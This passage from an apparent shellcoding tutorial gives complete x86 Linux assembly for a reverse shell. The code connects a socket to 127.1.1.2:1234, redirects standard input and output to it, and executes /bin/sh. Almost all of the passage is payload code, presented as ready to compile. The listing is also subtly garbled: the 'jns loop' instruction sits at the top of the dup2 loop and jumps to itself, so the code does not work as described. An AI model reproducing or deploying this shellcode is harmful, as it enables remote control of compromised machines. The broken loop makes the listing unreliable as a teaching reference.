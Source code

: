 In the end, we only need to add the previously discussed execve shellcode.

So, the full Assembly code required to create a reverse shell:

```nasm
global _start
section .text
_start:
    push 0x66
    pop eax          ; syscall
    push 0x1
    pop ebx
    xor edx,edx
    push edx         ; protocol IPPROTO_IP (0x0)
    push ebx         ; socket_type SOCK_STREAM (0x1)
    push 0x2         ; socket_family AF_INET (0x2)
    mov ecx, esp
    int 0x80
    xchg edx, eax    ; save result (sockfd) for later usage
    mov al, 0x66
    push 0x0201017f  ; sin_addr=127.1.1.2
    push word 0xd204 ; sin_port=1234
    inc ebx
    push word bx     ; sin_family=AF_INET (0x2)
    mov ecx, esp     ; save pointer to sockaddr struct
    push 0x10        ; addrlen=16
    push ecx         ; pointer to sockaddr
    push edx         ; sockfd
    mov ecx, esp
    inc ebx          ; sys_connect (0x3)
    int 0x80         ; exec sys_connect
    push 0x2
    pop ecx
    xchg ebx,edx

loop:
    jns loop
    mov al, 0x3f     ; syscall: sys_dup2
    int 0x80         ; execute sys_dup2
    dec ecx          ; decrement loop-counter
                     ; as long as SF is not set -> jmp to loop
    mov al, 0x0b
    xor ebx,ebx
    push ebx
    push 0x68732f2f  ;"hs//"
    push 0x6e69622f  ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    mov edx, ecx
    int 0x80
```

As we compile the assembly code, we receive a reverse
shell executable:

